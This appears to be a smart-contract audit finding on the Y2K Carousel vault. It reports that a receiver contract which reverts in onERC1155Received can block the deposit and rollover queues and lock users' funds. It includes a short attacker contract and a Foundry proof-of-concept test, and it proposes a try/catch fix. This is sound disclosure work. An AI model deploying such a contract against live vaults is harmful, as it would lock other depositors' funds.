 immeas

high

# malicious contract can DoS queues

## Summary
An attacker can create a contract that reverts on `onERC1155Received`. This will DoS rollover and deposit queues. Most importantly `depositQueue` as that will lock users funds in the contract.

## Vulnerability Detail
Similar to [the gas DoS issue](issue-10) where a malicious contract is deployed and used as a receiver.

When depositing into the queue the user pays upfront then waits for a relayer to mint their deposits into the next epoch.

If the receiver is a contract, minting ERC1155 will call `onERC1155Received` on the receiving contract. An attacker can create a contract that reverts which will revert minting:
```solidity
pragma solidity 0.8.17;

contract QueueDoS {
    function onERC1155Received(address , address , uint256 , uint256 , bytes calldata ) external pure returns (bytes4) {
        revert("no queue for you");
    }
}
```

Since the `depositQueue` really is a stack, this will lock previously queued users funds in the vault.

The same kind of attack can be performed on `rolloverQueue`, with some slight modifications since the attacking contract needs to accept the first minting when depositing.

If the attacker registers this malicious contract early in the `rolloverQueue` it will prevent any subsequent rollovers from happening. The epoch it registers in must be won ofc, but since the cost is low (`relayerFee + 1`), an attacker can simply register this in epochs until that vault wins that epoch. The impact here is however lower as it only prevents rollovers from happening and doesn't lock users funds.

PoC test on `depositQueue` in `CarouselTest.t.sol`:
```solidity
    function testDepositQueueDoS() public {
        uint40 _epochBegin = uint40(block.timestamp + 1 days);
        uint40 _epochEnd = uint40(block.timestamp + 2 days);
        uint256 _epochId = 1;
        vault.setEpoch(_epochBegin, _epochEnd, _epochId);

        QueueDoS attacker = new QueueDoS();
        deal(UNDERLYING,address(attacker),relayerFee + 1, true);

        vm.startPrank(USER);
        IERC20(UNDERLYING).approve(address(vault), 10 ether);
        vault.deposit(0, 10 ether, USER);
        vm.stopPrank();

        vm.startPrank(address(attacker));
        IERC20(UNDERLYING).approve(address(vault), relayerFee +1);
        vault.deposit(0, relayerFee + 1, address(attacker));
        vm.stopPrank();
        
        assertEq(vault.getDepositQueueLenght(),2);

        // deposits cannot be minted
        vm.expectRevert("no queue for you");
        vault.mintDepositInQueue(_epochId, 5);

        // USERs funds locked in vault
        assertEq(vault.balanceOf(USER,_epochId),0);
    }
```

## Impact
DoS on `depositQueue` will lock previously queued users funds in the vault.

DoS on `rolloverQueue` will prevent rollovers that were registered after malicious contract from occurring as the index cannot be updated.

## Code Snippet
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L437

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L536

## Tool used
Manual Review

## Recommendation
One way to solve this is to wrap the minting in a try/catch. That wouldn't solve the [gas inflation issue](https://github.com/sherlock-audit/2023-03-Y2K-0ximmeas/issues/10) but it has its own solution discussion.

This solution implies a way for users to [withdraw their queued deposits](issue-12).